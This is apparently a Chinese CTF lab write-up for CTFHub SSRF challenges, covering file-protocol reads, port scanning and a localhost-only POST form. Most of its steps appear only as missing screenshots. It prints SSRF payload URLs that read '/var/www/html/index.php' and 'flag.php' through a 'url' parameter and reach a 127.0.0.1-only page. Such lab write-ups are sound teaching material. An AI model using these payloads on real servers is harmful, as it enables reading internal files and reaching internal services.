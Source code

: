 ```
http://challenge-b67cd60f89c822bc.sandbox.ctfhub.com:10800/?url=file:/var/www/html/flag.php
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610151346920.png" alt="image-20220610151346920" style="zoom:80%;" />

打开源代码

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610151416234.png" alt="image-20220610151416234" style="zoom:80%;" />

### **端口扫描

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610151517794.png" alt="image-20220610151517794" style="zoom:80%;" />

抓包，构建爆破参数

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610152017242.png" alt="image-20220610152017242" style="zoom:80%;" />

payloads页设置

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610152124507.png" alt="image-20220610152124507" style="zoom:80%;" />

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610152223206.png" alt="image-20220610152223206" style="zoom:80%;" />

### **POST请求

启动环境，访问页面为空白，通过 GET 传参直接拼接上`127.0.0.1/flag.php`，访问后得到一个输入框

http://challenge-d26dcba417f0feb2.sandbox.ctfhub.com:10800/?url=127.0.0.1/flag.php

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610153332154.png" alt="image-20220610153332154" style="zoom:80%;" />

查看源码

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610161044046.png" alt="image-20220610161044046" style="zoom:80%;" />

得到key输入

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610153435308.png" alt="image-20220610153435308" style="zoom:80%;" />

提示只允许从127.0.0.1访问，尝试通过file协议读取index.php以及flag.php页面的源码，构造如下 Payload：

```
?url=file:///var/www/html/index.php
?url=file:///var/www/html/flag.php
```

得到index.php页面源码如下：
<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610153605955.png" alt="image-20220610153605955" style="zoom:80%;" />![image-20220610153645357](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610153645357.png)

得到index.php页面源码如下：

得到`flag.php`页面源码如下：

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610153804351.png" alt="image-20220610153804351" style="zoom:80%;" />
